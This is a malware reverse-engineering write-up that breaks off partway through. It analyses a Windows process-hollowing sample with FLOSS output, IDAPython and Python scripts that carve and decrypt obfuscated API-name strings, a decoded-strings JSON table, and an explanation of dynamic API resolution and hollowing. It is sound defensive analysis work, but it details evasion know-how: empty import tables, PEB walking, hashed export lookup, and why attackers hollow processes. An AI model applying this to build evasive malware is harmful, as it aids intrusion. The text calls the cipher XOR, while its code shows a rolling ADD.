INFO: floss.results: Pfnmp[iLkjnb_m
INFO: floss.results: Lb]]Kll_^nmJafjlv
INFO: floss.results: AbpFj^rh^AciaG\gb=
INFO: floss.results: Abp<ploagoJok\`mpE]
INFO: floss.results: AbpLtmqaf?coa\oiou:
INFO: floss.results: G^lOd_tK_Acia
INFO: floss.results: Pfnmp[i=egi`Aq
INFO: floss.results: MbpMclb]]>ikp^sn
extracting stackstrings: 100%|██████████████████████████████████████████████████████████████████████████| 115/115 [00:01<00:00, 84.28 functions/s]
INFO: floss.tightstrings: extracting tightstrings from 4 functions...
extracting tightstrings from function 0x140008a04: 100%|████████████████████████████████████████████████████| 4/4 [00:00<00:00, 28.11 functions/s]
INFO: floss.string_decoder: decoding strings
INFO: floss.results: CreateDecompressor
INFO: floss.results: GetModuleFileNameA
INFO: floss.results: WriteProcessMemory
INFO: floss.results: CreateRemoteThread
INFO: floss.results: CreateFileMappingW
INFO: floss.results: CloseHandle
INFO: floss.results: OpenProcess
INFO: floss.results: CreateFileA
INFO: floss.results: Cabinet.dll
INFO: floss.results: GetModuleHandleA
INFO: floss.results: SetThreadContext
INFO: floss.results: GetThreadContext
INFO: floss.results: GetSystemDirectoryA
INFO: floss.results: WaitForSingleObject
INFO: floss.results: GetCurrentProcessId
INFO: floss.results: ResumeThread
INFO: floss.results: Kernel32.dll
INFO: floss.results: VirtualAlloc
INFO: floss.results: VirtualAllocEx
INFO: floss.results: VirtualProtect
INFO: floss.results: CreateProcessA
INFO: floss.results: ReadProcessMemory
INFO: floss.results: CloseDecompressor
INFO: floss.results: Decompress
INFO: floss.results: MapViewOfFile
emulating function 0x140002e90 (call 3/3): 100%|██████████████████████████████████████████████████████████| 21/21 [00:02<00:00,  7.90 functions/s]
INFO: floss: finished execution after 26.41 seconds
INFO: floss: rendering results
```

#### Company Information

For this Info, Refer the Strings Threat Intel in Threat Inteligence Section,
#### Collection of Windows APIs

```bash
GetProcAddress
LoadLibraryA
GetStdHandle
KERNEL32.dll
IsDebuggerPresent
RaiseException
MultiByteToWideChar
WideCharToMultiByte
RtlCaptureContext
RtlLookupFunctionEntry
RtlVirtualUnwind
UnhandledExceptionFilter
SetUnhandledExceptionFilter
GetCurrentProcess
TerminateProcess
IsProcessorFeaturePresent
GetLastError
HeapAlloc
HeapFree
GetProcessHeap
VirtualQuery
FreeLibrary
QueryPerformanceCounter
GetCurrentProcessId
GetCurrentThreadId
GetSystemTimeAsFileTime
InitializeSListHead
GetStartupInfoW
GetModuleHandleW
RtlUnwindEx
GetModuleFileNameW
LoadLibraryExW
SetLastError
EnterCriticalSection
LeaveCriticalSection
DeleteCriticalSection
InitializeCriticalSectionAndSpinCount
TlsAlloc
TlsGetValue
TlsSetValue
TlsFree
WriteFile
ExitProcess
GetModuleHandleExW
GetFileType
FindClose
FindFirstFileExW
FindNextFileW
IsValidCodePage
GetACP
GetOEMCP
GetCPInfo
GetCommandLineA
GetCommandLineW
GetEnvironmentStringsW
FreeEnvironmentStringsW
SetStdHandle
GetStringTypeW
LCMapStringW
SetFilePointerEx
HeapSize
HeapReAlloc
FlushFileBuffers
GetConsoleOutputCP
GetConsoleMode
CloseHandle
CreateFileW
WriteConsoleW
```

This are the `FLOSS DECODED STRINGS`,

```bash
CreateDecompressor
GetModuleFileNameA
WriteProcessMemory
CreateRemoteThread
CreateFileMappingW
CloseHandle
OpenProcess
CreateFileA
Cabinet.dll
GetModuleHandleA
SetThreadContext
GetThreadContext
GetSystemDirectoryA
WaitForSingleObject
GetCurrentProcessId
ResumeThread
Kernel32.dll
VirtualAlloc
VirtualAllocEx
VirtualProtect
CreateProcessA
ReadProcessMemory
CloseDecompressor
Decompress
MapViewOfFile
```

This is the whole hypothesis Flow diagram that shows how this program behaves,

![[API_Flow_Diagram.png]]
### Advanced Static Analysis

But you might think that how do i know these functions are doing that api decryption and because there is not direct xref for all resolving functions,
So for that I have found 

When we see this kind of pattern, it can indicate **dynamic API resolution**, where the malware resolves an API address at runtime often using `LoadLibrary` to obtain a DLL module handle and `GetProcAddress` to obtain the **function address** and stores that address in a **global/function-pointer** variable for later indirect calls. 


#### Dynamic API Resolving

Before starting we need to understand what is dynamic API resolving,

**"The general technique: Malware avoids the normal Import Address Table"**

- Normally, when Windows loads a PE, the loader reads its **Import Address Table (IAT)** a list of every `DLL!FunctionName` the program needs and fills in real addresses before `main()` even runs. 
- That table is also the single richest thing a defender looks at: static AV signatures, YARA rules, and just opening the binary in IDA's Imports tab instantly reveal "this program imports `CreateRemoteThread`, `WriteProcessMemory`, `VirtualAllocEx`..." 
- basically a checklist for "**this is process injection."**

So malware authors leave the IAT empty (or fill it with innocuous junk) and reconstruct function pointers themselves, **at runtime, after the binary is already running** by that point static scanners have nothing to look at. 
There are two common ways to actually find the function once you've decided you need it:

1. **The "lazy" way**: call `LoadLibraryA`/`GetModuleHandleA` to get a DLL base, then `GetProcAddress(base, "FunctionName")`. Simple, but ironically means `LoadLibraryA` and `GetProcAddress` themselves have to be imported somewhere (chicken-and-egg) often the only two imports visible in the whole binary.
2. **The "manual" way**: walk the **PEB** (`gs:[0x60]` → `Ldr` → `InMemoryOrderModuleList`) to find an already-loaded DLL (kernel32/ntdll are in every process) without calling anything, then manually parse that DLL's **Export Directory** (`AddressOfNames`, `AddressOfNameOrdinals`, `AddressOfFunctions`) and compare each exported name usually by **hash**, not plaintext, so the string never sits in memory unencrypted for long until you find a match. Zero imports needed at all.

Once resolved, the address gets **cached somewhere** so it isn't redone on every call, either one global pointer variable per function, or one shared array/table indexed by ID or hash.

##### What's actually confirmed in this binary

- So For our case it is **The "lazy" way**, 

Now after understanding of API resolving we can jump to code analysis part in IDA,

We can see the xref that global var that which function is using, 



So it means before getting function name from DLL, it needs to load the DLL itself to get the base address of and then its function is imported,
So for now **Remember this function for now because it will reference later** `sub_140001500` is some kind API which,



Now lets see what that `sub_140002540` function is doing,



It is passing encrypting string to another function thought argument and some another location and that location is return by this function which means it will return pointer to that string to `LoadLibrary`,

Now lets see what that `sub_1400019D0` function is doing,





```c
[0x06, 0x03, 0x04, 0x07, 0x05]
```

So I make one simple script to decrypt this encrypted string and here is the reult,

```py
KEY = bytes([0x06, 0x03, 0x04, 0x07, 0x05])

strings = [
	"Ebng`f0.'_fi",
]

for s in strings:
    data = s.encode("latin-1")

    print(f"\nString : {s}")
    print("Hex    :", " ".join(f"{b:02X}" for b in data))

    decoded = bytes(
        (b + KEY[i % len(KEY)]) & 0xFF
        for i, b in enumerate(data)
    )

    print("Decoded:", decoded.hex(" ").upper())
    print("ASCII  :", decoded.decode("latin-1"))
```



- It is `kernel32.dll` which means it means APIs functions of this DLL will be resolve at run time, 
- So this is just one dll then there will be function which will resolve the function of this API, 



So now we can continue and see that function,



We just need to take this encrypted string and put in our script to see whether it decrypt or not, and yes indeed!!!
it is `VirtualAlloc` which will be resolve dynamically and used for allocating the memory,



So now comes the difficult part, there are lots and lots of functions so how can we get all encrypted strings so I made one python script using `IDAPython` and out friend LLM 😗, which will carve all the encrypted strings and scale this decryptor script to perform large scale decryption.

What it will do carve all the blobs and throws it to json file and decryptor will take that json as input and decrypt it,

- carve_ency_APIs_strings.py

```python
# 01_carve_encrypted.py
# IDA / Hex-Rays
#
# Extract encrypted strings passed to qmemcpy/memcpy/memmove.
# This script DOES NOT decrypt anything.

import json
import csv
import os

import idaapi
import idautils
import idc

try:
    import ida_hexrays as hr
except ImportError:
    hr = None


# ============================================================
# CONFIG
# ============================================================

TARGET_FUNCS = {
    "qmemcpy",
    "memcpy",
    "memcpy_0",
    "qmemcpy32",
    "memmove",
}

OUT_JSON = "encrypted_strings.json"
OUT_CSV = "encrypted_strings.csv"


# ============================================================
# HEX-RAYS HELPERS
# ============================================================

def get_call_name(e):
    """Return name of called function."""
    try:
        target = e.x
    except Exception:
        return None

    if target.op == hr.cot_obj:
        return idc.get_name(target.obj_ea)

    if target.op == hr.cot_helper:
        return target.helper

    return None


def get_const_int(arg):
    """Get integer constant from Hex-Rays expression."""
    try:
        a = arg

        while a.op == hr.cot_cast:
            a = a.x

        if a.op != hr.cot_num:
            return None

        try:
            return int(a.numval())
        except Exception:
            try:
                return int(a.n.value)
            except Exception:
                return None

    except Exception:
        return None


def get_lvar_name(cfunc, idx):
    """Resolve local variable name."""
    try:
        return cfunc.lvars[idx].name
    except Exception:
        pass

    try:
        return cfunc.get_lvars()[idx].name
    except Exception:
        pass

    return "lvar_%d" % idx


def get_dest_name(cfunc, arg):
    """Get qmemcpy destination variable name."""
    try:
        a = arg

        while a.op == hr.cot_cast:
            a = a.x

        if a.op == hr.cot_var:
            return get_lvar_name(cfunc, a.v.idx)

        if a.op == hr.cot_obj:
            return idc.get_name(a.obj_ea) or "0x%X" % a.obj_ea

        if a.op == hr.cot_ref:
            return get_dest_name(cfunc, a.x)

    except Exception:
        pass

    return "<unknown>"


# ============================================================
# RAW STRING EXTRACTION
# ============================================================

def extract_cot_str(arg):
    """
    Extract the Hex-Rays string literal.

    IMPORTANT:
        Convert directly to bytes.

    Do NOT:
        - eval()
        - decode escape sequences
        - json.loads()
        - unicode_escape
        - repr() round-trip
    """
    try:
        a = arg

        while a.op == hr.cot_cast:
            a = a.x

        if a.op != hr.cot_str:
            return None

        s = a.string

        if isinstance(s, bytes):
            return bytes(s)

        if not isinstance(s, str):
            return None

        out = bytearray()
        i = 0

        while i < len(s):
            ch = s[i]

            # Normal character
            if ch != "\\":
                out.append(ord(ch) & 0xFF)
                i += 1
                continue

            # Backslash handling
            if i + 1 < len(s):
                nxt = s[i + 1]

                # Hex escape: \xNN
                if nxt.lower() == "x" and i + 3 < len(s):
                    h = s[i + 2:i + 4]

                    try:
                        out.append(int(h, 16))
                        i += 4
                        continue
                    except ValueError:
                        pass

                # Escaped backslash
                if nxt == "\\":
                    out.append(0x5C)
                    i += 2
                    continue

            # Remaining backslash = literal 0x5C
            out.append(0x5C)
            i += 1

        return bytes(out)

    except Exception as e:
        print("[!] String extraction error: %s" % e)
        return None


def extract_object_string(arg):
    """Fallback for cot_obj references."""
    try:
        ea = arg.obj_ea
    except Exception:
        return None

    if ea == idaapi.BADADDR:
        return None

    # First try IDA string API
    try:
        max_len = idc.get_max_strlit_length(
            ea,
            idc.STRTYPE_C
        )

        if max_len > 0:
            data = idc.get_strlit_contents(
                ea,
                max_len,
                idc.STRTYPE_C
            )

            if data:
                if isinstance(data, bytes):
                    return bytes(data)

                return data.encode(
                    "latin-1",
                    errors="replace"
                )

    except Exception:
        pass

    # Raw fallback
    try:
        data = idc.get_bytes(ea, 512)

        if not data:
            return None

        nul = data.find(b"\x00")

        if nul != -1:
            return data[:nul]

        return data

    except Exception:
        return None


def extract_bytes(arg):
    """Extract literal bytes without decoding."""
    try:
        a = arg

        while a.op == hr.cot_cast:
            a = a.x

    except Exception:
        return None

    if a.op == hr.cot_str:
        return extract_cot_str(a)

    if a.op == hr.cot_obj:
        return extract_object_string(a)

    return None


# ============================================================
# CTREE VISITOR
# ============================================================

class EncryptedStringVisitor(hr.ctree_visitor_t):

    def __init__(self, cfunc, results):
        hr.ctree_visitor_t.__init__(
            self,
            hr.CV_FAST
        )

        self.cfunc = cfunc
        self.results = results

    def visit_expr(self, e):
        if e.op != hr.cot_call:
            return 0

        name = get_call_name(e)

        if name not in TARGET_FUNCS:
            return 0

        args = e.a

        if args is None or len(args) < 2:
            return 0

        # Destination
        dest = get_dest_name(
            self.cfunc,
            args[0]
        )

        # Source encrypted bytes
        raw = extract_bytes(args[1])

        if raw is None:
            return 0

        # Length argument
        qmemcpy_length = None

        if len(args) >= 3:
            qmemcpy_length = get_const_int(args[2])

        # EA
        ea = e.ea

        if ea == idaapi.BADADDR:
            ea = self.cfunc.entry_ea

        # Preserve exactly what was extracted.
        entry = {
            "ea": "0x%X" % ea,
            "func": idc.get_func_name(
                self.cfunc.entry_ea
            ),
            "dest": dest,
            "qmemcpy_length": qmemcpy_length,
            "extracted_length": len(raw),
            "encoded_hex": raw.hex(),
        }

        self.results.append(entry)

        return 0


# ============================================================
# SCAN DATABASE
# ============================================================

def carve_all():
    if hr is None:
        print("[!] Hex-Rays unavailable.")
        return []

    if not hr.init_hexrays_plugin():
        print("[!] Hex-Rays plugin unavailable.")
        return []

    results = []

    funcs = list(idautils.Functions())

    print(
        "[*] Scanning %d functions..."
        % len(funcs)
    )

    for n, ea in enumerate(funcs):
        try:
            cfunc = hr.decompile(ea)
        except Exception:
            continue

        if cfunc is None:
            continue

        try:
            visitor = EncryptedStringVisitor(
                cfunc,
                results
            )

            visitor.apply_to(
                cfunc.body,
                None
            )

        except Exception as e:
            print(
                "[!] 0x%X: %s"
                % (ea, e)
            )

        if (n + 1) % 200 == 0:
            print(
                "    %d/%d"
                % (
                    n + 1,
                    len(funcs)
                )
            )

    return results


# ============================================================
# OUTPUT
# ============================================================

def save_results(results):
    idb_dir = (
        os.path.dirname(idc.get_idb_path())
        or "."
    )

    json_path = os.path.join(
        idb_dir,
        OUT_JSON
    )

    csv_path = os.path.join(
        idb_dir,
        OUT_CSV
    )

    # JSON
    with open(
        json_path,
        "w",
        encoding="utf-8"
    ) as f:
        json.dump(
            results,
            f,
            indent=2
        )

    # CSV
    fields = [
        "ea",
        "func",
        "dest",
        "qmemcpy_length",
        "extracted_length",
        "encoded_hex",
    ]

    # with open(
    #     csv_path,
    #     "w",
    #     newline="",
    #     encoding="utf-8"
    # ) as f:
    #     writer = csv.DictWriter(
    #         f,
    #         fieldnames=fields
    #     )

    #     writer.writeheader()
    #     writer.writerows(results)

    # Console
    print()
    print(
        "[+] Exported %d encrypted strings."
        % len(results)
    )

    print(
        "[+] JSON: %s"
        % json_path
    )

    print(
        "[+] CSV : %s"
        % csv_path
    )

    print()

    for r in results:
        print(
            "%s  %-28s %-28s len=%-3s  %s"
            % (
                r["ea"],
                r["func"],
                r["dest"],
                r["extracted_length"],
                r["encoded_hex"],
            )
        )


# ============================================================
# MAIN
# ============================================================

def main():
    results = carve_all()
    save_results(results)


if __name__ == "__main__":
    main()
```


- api_decry.py

```python
import json
import sys
from pathlib import Path


# ============================================================
# CONFIG
# ============================================================

KEY = bytes([
    0x06,
    0x03,
    0x04,
    0x07,
    0x05,
])

DEFAULT_INPUT = "encrypted_strings.json"
DEFAULT_OUTPUT = "decoded_strings.json"


# ============================================================
# DECODER
# ============================================================

def decrypt(data):
    """
    Rolling ADD decoder.

    P[i] = (C[i] + KEY[i % 5]) & 0xff
    """
    result = bytearray()

    for i, byte in enumerate(data):
        result.append(
            (byte + KEY[i % len(KEY)]) & 0xff
        )

    return bytes(result)


# ============================================================
# HEX HELPERS
# ============================================================

def hex_to_bytes(value):
    """
    Convert encoded_hex -> bytes.

    Example:
        4162703c -> b'Abp<'
    """
    if not isinstance(value, str):
        raise ValueError("encoded_hex must be a string")

    value = value.strip()

    if len(value) % 2 != 0:
        raise ValueError(
            "Odd number of hex characters: %r" % value
        )

    try:
        return bytes.fromhex(value)

    except ValueError as e:
        raise ValueError(
            "Invalid encoded_hex: %r" % value
        ) from e


# ============================================================
# DESTINATION HINT
# ============================================================

def get_dest_hint(dest):
    """
    Convert:

        var_GetCurrentProcessId

    to:

        GetCurrentProcessId
    """
    if not dest:
        return None

    for prefix in (
        "var_",
        "dest_",
        "Str",
    ):
        if dest.startswith(prefix):
            return dest[len(prefix):]

    return None


# ============================================================
# VALIDATION
# ============================================================

def check_clean(decoded, dest):
    """
    Check whether decoded plaintext matches
    the variable hint.
    """
    hint = get_dest_hint(dest)

    if hint is None:
        return False

    try:
        text = decoded.decode("ascii")

    except UnicodeDecodeError:
        return False

    return text == hint


# ============================================================
# PROCESS
# ============================================================

def process(input_file, output_file):
    input_path = Path(input_file)
    output_path = Path(output_file)

    with input_path.open(
        "r",
        encoding="utf-8"
    ) as f:
        records = json.load(f)

    output = []

    for record in records:
        encoded_hex = record.get("encoded_hex")

        if not encoded_hex:
            print(
                "[!] Missing encoded_hex: %s"
                % record.get("ea", "<unknown>")
            )
            continue

        try:
            encrypted = hex_to_bytes(encoded_hex)
            plaintext = decrypt(encrypted)

        except Exception as e:
            print(
                "[!] Failed %s: %s"
                % (
                    record.get("ea", "<unknown>"),
                    e
                )
            )
            continue

        try:
            decoded_str = plaintext.decode("ascii")

        except UnicodeDecodeError:
            decoded_str = plaintext.decode("latin-1")

        clean = check_clean(
            plaintext,
            record.get("dest")
        )

        result = dict(record)

        # Keep original encrypted data.
        result["encoded_hex"] = encoded_hex

        result["decoded_hex"] = plaintext.hex()
        result["decoded_str"] = decoded_str
        result["key"] = KEY.hex()

        result["dest_hint"] = get_dest_hint(
            record.get("dest")
        )

        result["decode_clean"] = clean

        output.append(result)

    # --------------------------------------------------------
    # Save
    # --------------------------------------------------------

    with output_path.open(
        "w",
        encoding="utf-8"
    ) as f:
        json.dump(
            output,
            f,
            indent=2,
            ensure_ascii=False
        )

    # --------------------------------------------------------
    # Console
    # --------------------------------------------------------

    print()
    print("=" * 100)

    print(
        "%-14s %-28s %-30s"
        % (
            "EA",
            "FUNCTION",
            "DECODED"
        )
    )

    print("-" * 100)

    for r in output:
        status = (
            "OK"
            if r["decode_clean"]
            else "?"
        )

        print(
            "%-14s %-28s %-30s [%s]"
            % (
                r.get("ea", ""),
                r.get("func", "")[:28],
                r.get("decoded_str", ""),
                status
            )
        )

    print("-" * 100)

    print(
        "[+] Decoded %d strings."
        % len(output)
    )

    print(
        "[+] Output: %s"
        % output_path
    )


# ============================================================
# MAIN
# ============================================================

def main():
    input_file = (
        sys.argv[1]
        if len(sys.argv) >= 2
        else DEFAULT_INPUT
    )

    output_file = (
        sys.argv[2]
        if len(sys.argv) >= 3
        else DEFAULT_OUTPUT
    )

    process(
        input_file,
        output_file
    )


if __name__ == "__main__":
    main()
```



This is what encypted_json looks like,





```json
[
  {
    "ea": "0x140001B7F",
    "func": "mw_CreateProcessA",
    "dest": "var_CreateProcessA",
    "qmemcpy_length": 14,
    "extracted_length": 14,
    "encoded_hex": "3d6f615a6f5f4d6e685e5f706f3a",
    "decoded_hex": "43726561746550726f6365737341",
    "decoded_str": "CreateProcessA",
    "key": "0603040705",
    "dest_hint": "CreateProcessA",
    "decode_clean": true
  },
  {
    "ea": "0x140001C3F",
    "func": "mw_GetThreadContext",
    "dest": "var_GetThreadContext",
    "qmemcpy_length": 16,
    "extracted_length": 16,
    "encoded_hex": "4162704d636c625d5d3e696b705e736e",
    "decoded_hex": "476574546872656164436f6e74657874",
    "decoded_str": "GetThreadContext",
    "key": "0603040705",
    "dest_hint": "GetThreadContext",
    "decode_clean": true
  },
  {
    "ea": "0x140001D0F",
    "func": "mw_CreateFileA",
    "dest": "var_CreateFIleA",
    "qmemcpy_length": 11,
    "extracted_length": 11,
    "encoded_hex": "3d6f615a6f5f436565603b",
    "decoded_hex": "43726561746546696c6541",
    "decoded_str": "CreateFileA",
    "key": "0603040705",
    "dest_hint": "CreateFIleA",
    "decode_clean": false
  },
  {
    "ea": "0x140001DBF",
    "func": "mw_VirtualAlloc",
    "dest": "var_VirtualAlloc",
    "qmemcpy_length": 12,
    "extracted_length": 12,
    "encoded_hex": "50666e6d705b693d65676960",
    "decoded_hex": "5669727475616c416c6c6f63",
    "decoded_str": "VirtualAlloc",
    "key": "0603040705",
    "dest_hint": "VirtualAlloc",
    "decode_clean": true
  },
  {
    "ea": "0x140001E6F",
    "func": "mw_CloseDecompressor",
    "dest": "var_CloseDecompressor",
    "qmemcpy_length": 17,
    "extracted_length": 17,
    "encoded_hex": "3d696b6c603e625f68686a6f616c6e696f",
    "decoded_hex": "436c6f73654465636f6d70726573736f72",
    "decoded_str": "CloseDecompressor",
    "key": "0603040705",
    "dest_hint": "CloseDecompressor",
    "decode_clean": true
  },
  {
    "ea": "0x140001F3F",
    "func": "mw_ResumeThread",
    "dest": "var_ResumeThread",
    "qmemcpy_length": 12,
    "extracted_length": 12,
    "encoded_hex": "4c626f6e685f51646b605b61",
    "decoded_hex": "526573756d65546872656164",
    "decoded_str": "ResumeThread",
    "key": "0603040705",
    "dest_hint": "ResumeThread",
    "decode_clean": true
  },
  {
    "ea": "0x140001FEF",
    "func": "mw_WaitForSingleObject",
    "dest": "var_WaitForSingleObject",
    "qmemcpy_length": 19,
    "extracted_length": 19,
    "encoded_hex": "515e656d41696f4f6269616961485d64625f6d",
    "decoded_hex": "57616974466f7253696e676c654f626a656374",
    "decoded_str": "WaitForSingleObject",
    "key": "0603040705",
    "dest_hint": "WaitForSingleObject",
    "decode_clean": true
  },
  {
    "ea": "0x1400020CF",
    "func": "mw_CreateRemoteThread",
    "dest": "var_CreateRemoteThread",
    "qmemcpy_length": 18,
    "extracted_length": 18,
    "encoded_hex": "3d6f615a6f5f4f61666a6e6250616d5f5e60",
    "decoded_hex": "43726561746552656d6f7465546872656164",
    "decoded_str": "CreateRemoteThread",
    "key": "0603040705",
    "dest_hint": "CreateRemoteThread",
    "decode_clean": true
  },
  {
    "ea": "0x14000219F",
    "func": "mw_Cabinet_dll",
    "dest": "var_Cabinet_dll",
    "qmemcpy_length": 11,
    "extracted_length": 11,
    "encoded_hex": "3d5e5e62695f712a5d6766",
    "decoded_hex": "436162696e65742e646c6c",
    "decoded_str": "Cabinet.dll",
    "key": "0603040705",
    "dest_hint": "Cabinet_dll",
    "decode_clean": false
  },
  {
    "ea": "0x14000224F",
    "func": "mw_CreateFileMappingW",
    "dest": "var_CreateFileMappingW",
    "qmemcpy_length": 18,
    "extracted_length": 18,
    "encoded_hex": "3d6f615a6f5f43656560475e6c6964686453",
    "decoded_hex": "43726561746546696c654d617070696e6757",
    "decoded_str": "CreateFileMappingW",
    "key": "0603040705",
    "dest_hint": "CreateFileMappingW",
    "decode_clean": true
  },
  {
    "ea": "0x14000231F",
    "func": "mw_WriteProcessMemory",
    "dest": "var_WriteProcessMemory",
    "qmemcpy_length": 18,
    "extracted_length": 18,
    "encoded_hex": "516f656d604a6f6b5c606d70495e68696f75",
    "decoded_hex": "577269746550726f636573734d656d6f7279",
    "decoded_str": "WriteProcessMemory",
    "key": "0603040705",
    "dest_hint": "WriteProcessMemory",
    "decode_clean": true
  },
  {
    "ea": "0x1400023EF",
    "func": "mw_CreateDecompressor",
    "dest": "var_CreateDecompressor",
    "qmemcpy_length": 18,
    "extracted_length": 18,
    "encoded_hex": "3d6f615a6f5f41615c6a676d6e5e6e6d6c6e",
    "decoded_hex": "4372656174654465636f6d70726573736f72",
    "decoded_str": "CreateDecompressor",
    "key": "0603040705",
    "dest_hint": "CreateDecompressor",
    "decode_clean": true
  },
  {
    "ea": "0x1400024BF",
    "func": "mw_Decompress",
    "dest": "var_Decompress",
    "qmemcpy_length": 10,
    "extracted_length": 10,
    "encoded_hex": "3e625f68686a6f616c6e",
    "decoded_hex": "4465636f6d7072657373",
    "decoded_str": "Decompress",
    "key": "0603040705",
    "dest_hint": "Decompress",
    "decode_clean": true
  },
  {
    "ea": "0x14000256F",
    "func": "mw_Kernel32_dll",
    "dest": "var_Kernel32_dll",
    "qmemcpy_length": 12,
    "extracted_length": 12,
    "encoded_hex": "45626e676066302e275f6669",
    "decoded_hex": "4b65726e656c33322e646c6c",
    "decoded_str": "Kernel32.dll",
    "key": "0603040705",
    "dest_hint": "Kernel32_dll",
    "decode_clean": false
  },
  {
    "ea": "0x14000261F",
    "func": "mw_OpenProcess",
    "dest": "var_OpenProcess",
    "qmemcpy_length": 11,
    "extracted_length": 11,
    "encoded_hex": "496d61674b6c6c5f5e6e6d",
    "decoded_hex": "4f70656e50726f63657373",
    "decoded_str": "OpenProcess",
    "key": "0603040705",
    "dest_hint": "OpenProcess",
    "decode_clean": true
  },
  {
    "ea": "0x1400026CF",
    "func": "mw_GetModuleHandleA",
    "dest": "var_GetModuleHandleA",
    "qmemcpy_length": 16,
    "extracted_length": 16,
    "encoded_hex": "416270466a5e72685e435b6b6065603b",
    "decoded_hex": "4765744d6f64756c6548616e646c6541",
    "decoded_str": "GetModuleHandleA",
    "key": "0603040705",
    "dest_hint": "GetModuleHandleA",
    "decode_clean": true
  },
  {
    "ea": "0x14000279F",
    "func": "mw_CloseHandle",
    "dest": "var_CloseHandle",
    "qmemcpy_length": 11,
    "extracted_length": 11,
    "encoded_hex": "3d696b6c60425e6a5d675f",
    "decoded_hex": "436c6f736548616e646c65",
    "decoded_str": "CloseHandle",
    "key": "0603040705",
    "dest_hint": "CloseHandle",
    "decode_clean": true
  },
  {
    "ea": "0x14000284F",
    "func": "mw_VirtualProtect",
    "dest": "var_VirtualProtect",
    "qmemcpy_length": 14,
    "extracted_length": 14,
    "encoded_hex": "50666e6d705b694c6b6a6e625f6d",
    "decoded_hex": "5669727475616c50726f74656374",
    "decoded_str": "VirtualProtect",
    "key": "0603040705",
    "dest_hint": "VirtualProtect",
    "decode_clean": true
  },
  {
    "ea": "0x14000290F",
    "func": "mw_ReadProcessMemory",
    "dest": "var_ReadProcessMemory",
    "qmemcpy_length": 17,
    "extracted_length": 17,
    "encoded_hex": "4c625d5d4b6c6c5f5e6e6d4a61666a6c76",
    "decoded_hex": "5265616450726f636573734d656d6f7279",
    "decoded_str": "ReadProcessMemory",
    "key": "0603040705",
    "dest_hint": "ReadProcessMemory",
    "decode_clean": true
  },
  {
    "ea": "0x1400029DF",
    "func": "mw_GetModuleFileNameA",
    "dest": "var_GetModuleFileNameA",
    "qmemcpy_length": 18,
    "extracted_length": 18,
    "encoded_hex": "416270466a5e72685e41636961475c67623d",
    "decoded_hex": "4765744d6f64756c6546696c654e616d6541",
    "decoded_str": "GetModuleFileNameA",
    "key": "0603040705",
    "dest_hint": "GetModuleFileNameA",
    "decode_clean": true
  },
  {
    "ea": "0x140002AAF",
    "func": "mw_GetCurrentProcessId",
    "dest": "var_GetCurrentProcessId",
    "qmemcpy_length": 19,
    "extracted_length": 19,
    "encoded_hex": "4162703c706c6f61676f4a6f6b5c606d70455d",
    "decoded_hex": "47657443757272656e7450726f636573734964",
    "decoded_str": "GetCurrentProcessId",
    "key": "0603040705",
    "dest_hint": "GetCurrentProcessId",
    "decode_clean": true
  },
  {
    "ea": "0x140002B8F",
    "func": "mw_GetSystemDirectoryA",
    "dest": "var_GetSystemDirectoryA",
    "qmemcpy_length": 19,
    "extracted_length": 19,
    "encoded_hex": "4162704c746d7161663f636f615c6f696f753a",
    "decoded_hex": "47657453797374656d4469726563746f727941",
    "decoded_str": "GetSystemDirectoryA",
    "key": "0603040705",
    "dest_hint": "GetSystemDirectoryA",
    "decode_clean": true
  },
  {
    "ea": "0x140002C6F",
    "func": "mw_MapViewOfFile",
    "dest": "var_MapViewOfFile",
    "qmemcpy_length": 13,
    "extracted_length": 13,
    "encoded_hex": "475e6c4f645f744b5f41636961",
    "decoded_hex": "4d6170566965774f6646696c65",
    "decoded_str": "MapViewOfFile",
    "key": "0603040705",
    "dest_hint": "MapViewOfFile",
    "decode_clean": true
  },
  {
    "ea": "0x140002D2F",
    "func": "mw_VirtualAllocEx",
    "dest": "var_VirtualAllocEx",
    "qmemcpy_length": 14,
    "extracted_length": 14,
    "encoded_hex": "50666e6d705b693d656769604171",
    "decoded_hex": "5669727475616c416c6c6f634578",
    "decoded_str": "VirtualAllocEx",
    "key": "0603040705",
    "dest_hint": "VirtualAllocEx",
    "decode_clean": true
  },
  {
    "ea": "0x140002DEF",
    "func": "mw_SetThreadContext",
    "dest": "var_SetThreadContext",
    "qmemcpy_length": 16,
    "extracted_length": 16,
    "encoded_hex": "4d62704d636c625d5d3e696b705e736e",
    "decoded_hex": "536574546872656164436f6e74657874",
    "decoded_str": "SetThreadContext",
    "key": "0603040705",
    "dest_hint": "SetThreadContext",
    "decode_clean": true
  }
]
```

- This are the same 25 APIs which we got in FLOSS decoded output **Collection of Windows APIs**,
- So i am is just showing that how it is done manually without tool if that situation will come. (It comes very often believe me. 🥲) 
- So that is how all the APIs was resolved, so what i have does is I renamed everything like function name, var name, variable type etc.. for better understanding.
- I am just explaining one example end to end because all the other function are same thing, just number of bytes is different in each decryption loop,

For `VirtualAlloc`, It is of 12B long string so it is using (13B - 1B) variant of decryption,

**(It means it is decrypting the APIs based on their length and each length has different decryption function with different key, remember algorithm is XOR for each one but key and number of bytes are changing that's it)**
#### WinMain Function

Now we can move forward with `WinMain` Function After statically resolving all the functions and renaming some of the functions,
This is just some anti-analysis implemented for wasting the analyst time,







Now lets jump to last function which is doing, **Process Hollowing**.





#### What is Process Hollowing??

Before going to technical details we need to understand what is process hollowing and why it is used by threat actors,

- **Process hollowing** is a **process-injection technique (MITRE ATT&CK T1055.012)** where an attacker creates a **legitimate Windows process** in a **suspended state**, **replaces or injects its in-memory code** with **malicious code**, changes the **execution context to the malicious code**, and then **resumes the process**
- The main reason is **stealth / defense evasion**.

Instead of directly running:

```
malware.exe
```

the attacker can make the system execute malicious code **inside a legitimate process** such as `svchost.exe`, `explorer.exe`, `notepad.exe`, etc. MITRE specifically describes process hollowing as a technique used to evade process-based defenses.

So from a defender's perspective, you may see:

```
explorer.exe
    └── malicious code
```

rather than:

```
malware.exe
```

##### Why is that useful to an attacker?

There are several advantages:
- **Defense evasion:** hides malicious execution behind a legitimate process.
- **Blends into normal process activity:** legitimate Windows processes are expected to exist.
- **Keeps the malware out of the original process's executable image:** the malicious payload can exist primarily in memory.
- **Can avoid simple filename/path-based detections:** defenders may see `svchost.exe` rather than an obvious malware filename.
- **Allows the attacker to control exactly where execution begins:** the thread context can be redirected to the injected PE's entry point.

![[process-injection-techniques-blogs-dll-injection.gif]]

Now lets move forward to analysis,



- Parse the PE

```c
v5 = *(int *)(_RCX + 60) + _RCX;
```

- `_RCX` is pointing to the malicious PE in memory.
- `_RCX + 0x3C` is the DOS header's `e_lfanew`, which points to the **PE/NT headers**.

Then:

```c
